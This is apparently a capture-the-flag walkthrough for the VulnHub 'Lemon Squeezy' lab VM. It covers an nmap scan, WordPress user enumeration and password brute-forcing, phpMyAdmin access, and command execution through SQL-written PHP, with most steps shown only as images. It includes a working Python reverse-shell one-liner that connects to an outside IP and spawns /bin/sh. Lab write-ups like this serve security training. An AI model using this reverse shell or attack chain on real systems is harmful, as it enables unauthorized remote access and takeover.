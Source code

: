 # VulnHub-Lemon Squeezy

## NMAP

```
nmap -sC -sV 172.16.6.128
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-25 05:47 PKT
Nmap scan report for 172.16.6.128
Host is up (0.00026s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 00:0C:29:BF:8A:DB (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.85 seconds

```

## PORT 80

<img src="https://imgur.com/3e3R2a3.png"/>


Running gobuster

<img src="https://imgur.com/ohut5DK.png"/>

We see that there's a wordpress directory and if you visit it css would not be rendered properly because it is using the domain name `lemonsqueezy` so put it in the `/etc/hosts` file

<img src="https://imgur.com/DNCzW3g.png"/>

<img src="https://imgur.com/TlT6WQg.png"/>

Since this is a wordpress site we can use wpscan to look for users

<img src="https://imgur.com/G26pGbt.png"/>

<img src="https://imgur.com/QOZdxRN.png"/>

Bruteforcing against these users

<img src="https://imgur.com/74gtYPG.png"/>

<img src="https://imgur.com/joxGmka.png"/>

<img src="https://imgur.com/rgNaNQf.png"/>

<img src="https://imgur.com/ZGbCvaa.png"/>

<img src="https://imgur.com/S0UFhtb.png"/>

<img src="https://imgur.com/Gt60xxp.png"/>

We know that there's another usernamed `lemon` maybe this is his passowrd for wordpress or phpmyadmin so let's try logging in with this

<img src="https://imgur.com/74oyBnN.png"/>

This was the password for orange to phpmyadmin

Insert a simple GET paramter php code to execute system commands through SQL

<img src="https://imgur.com/lFP3V6t.png"/>

<img src="https://imgur.com/14vCJfQ.png"/>



```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.43.129",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Through this payload we get a reverse shell and I stabilized it with by spawning a shell with python also I looked at cronjobs running and there is a script running as root

<img src="https://imgur.com/qzGtQZd.png"/>

<img src="https://imgur.com/Qllpyik.png"/>

<img src="https://imgur.com/SuBS4mO.png"/>

This didnt work so I used the python reverse shell payload again

<img src="https://imgur.com/koX6v9M.png"/>

<img src="https://imgur.com/sQVe4Z7.png"/>